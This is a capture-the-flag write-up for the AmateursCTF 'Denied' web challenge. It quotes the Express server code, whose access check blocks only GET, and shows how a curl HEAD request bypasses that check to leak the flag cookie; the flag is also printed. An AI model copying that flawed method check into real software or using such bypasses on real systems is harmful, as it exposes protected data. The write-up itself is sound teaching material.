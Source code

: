 # Web-Denied

solved by makider https://makider.me/

## Challenge Text

what options do i have?
http://denied.amt.rs/

![denied](assets/image.png)

## writeup

this challenge was very simple, to solve it we have to analyze the code though

![index.js](assets/index.js)

```js
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

as you can see if we make any get request to the website it returns Bad!

```bash
curl http://denied.amt.rs/
Bad!
```

to get the flag we can just send a request different from GET so we bypass the if condition.
`if (req.method == "GET") return res.send("Bad!");`

now there are many verbs we can use: DELETE, PATCH, HEAD, OPTIONS, TRACE i'll use my favourite one: `HEAD`

we can now use curl to send the request like this:

`curl -X HEAD http://denied.amt.rs/ -v`

+ note the `-v` argument it's useful to get the raw request headers

now we can read the flag in the output in the `Set-Cookie` header

`Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions…%7D; Path=/`

let's URL decode it in cyberchef

https://gchq.github.io/CyberChef/#recipe=URL_Decode()&input=YW1hdGV1cnNDVEYlN0JzMF9tJTQwbnlfMHB0aW9uc%2BKApiU3RA&oenc=65001

and we have the flag!

### The flag

`amateursCTF{s0_m@ny_0ptions…}`
